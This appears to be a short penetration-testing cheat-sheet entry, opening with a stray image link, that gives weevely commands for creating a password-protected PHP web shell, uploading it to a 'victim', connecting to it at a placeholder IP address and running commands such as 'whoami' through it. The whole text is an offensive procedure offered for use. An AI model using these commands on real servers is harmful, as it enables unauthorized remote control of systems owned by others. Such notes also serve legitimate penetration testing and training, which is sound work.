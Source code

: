 Quick webshell creation and usage
----------------------------------
```bash
# create web shell
weevely generate 1234 ./weevley.php

### upload file to victim

# get webshell
weevely http://xxx.xxx.xxx.xxx/weevley.php 1234

# run single command
weevely http://xxx.xxx.xxx.xxx/weevley.php 1234 whoami
```
